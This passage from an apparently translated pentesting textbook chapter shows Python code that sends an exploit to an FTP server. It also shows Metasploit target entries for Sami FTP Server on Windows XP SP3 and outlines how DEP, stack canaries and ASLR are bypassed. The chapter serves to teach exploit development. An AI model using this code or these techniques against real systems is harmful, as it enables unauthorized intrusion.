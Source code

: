 ```py
print(client.recv(1024))
client.send("USER " + username + "\r\n")
print(client.recv(1024))
client.send("PASS "password + "\r\n")
print(client.recv(1024))
print("[*] Sending exploit")
client.send("LIST" + exploit + "\r\n")
print(client.recv(1024))
client.close()
print("[*] Sent exploit to %s on port %s") % (rhost,rport)
```

现在，这个特定的漏洞利用是为 Windows XP SP 3 开发的。您现在可以使用这段代码来尝试并针对不同的平台。独立的 Python 漏洞利用意味着您有必要的能力来扩展漏洞利用。然后，您可以将额外的目标添加到 Metasploit 模块中。这可以通过修改模块的以下部分来实现。

![反向工程 Metasploit 模块](img/B04315_08_53.jpg)

以下是实际模块中的代码如何更新以包含其他相关目标的方式：

```py
'Targets'        =>
        [
          [ 'Sami FTP Server 2.0.1 / Windows XP SP 3',   { 'Ret' => 0x10028283, 'Offset' => 228 } ],
          [ 'New Definition', { 'Ret' => 0x#######, 'Offset' => ### } ],
```

通过这个例子，我们看到了如何反向工程 Metasploit 模块以创建一个独立的漏洞利用，这可以用来扩展目标选择并提高未来漏洞利用的可靠性。

### 注意

如果您选择创建新的 Metasploit 模块或具有不同功能的更新，并且不想破坏当前的安装，您可以将自定义模块加载到 Metasploit 中。这些细节在以下位置有很好的文档记录[`github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules`](https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules)。

# 理解保护机制

有一整本书专门介绍了一些供管理员和开发人员使用的工具，这些工具可以防止许多漏洞利用。它们包括**数据执行防护**（**DEP**），如果代码和操作系统配置为利用它，它将阻止像我们这样的代码运行。这是通过阻止在堆栈上执行数据来实现的。我们可以通过简单地覆盖**结构化异常处理**（**SEH**）来绕过 DEP，以运行我们自己的代码。

栈金丝雀是栈中的数学构造，检查返回指针何时被调用。如果值发生了变化，那么出现了问题，并引发了异常。如果攻击者确定了守卫正在检查的值，它可以被注入到 shellcode 中以防止异常。

最后，还有**地址空间层随机化**（**ASLR**），它随机化了我们利用的内存位置。ASLR 比其他两种方式更难打败，但它基本上是通过在内存中构建具有维持一致内存位置的共享库组件的漏洞利用来打败的。没有这些一致的共享库，操作系统将无法执行基本的进程。这种技术被称为**返回导向编程**（**ROP**）链接。

# 摘要

在本章中，我们概述了 Windows 内存结构以及我们如何利用糟糕的编码实践。然后，我们强调了如何使用 Python 代码生成自己的漏洞利用，使用有针对性的测试和概念验证代码。本章最后介绍了如何反向工程 Metasploit 模块以创建独立的漏洞利用，以改进当前模块的功能或生成新的漏洞利用。在下一章中，我们将介绍如何自动报告渗透测试期间发现的细节以及如何解析**可扩展标记语言**（**XML**）。
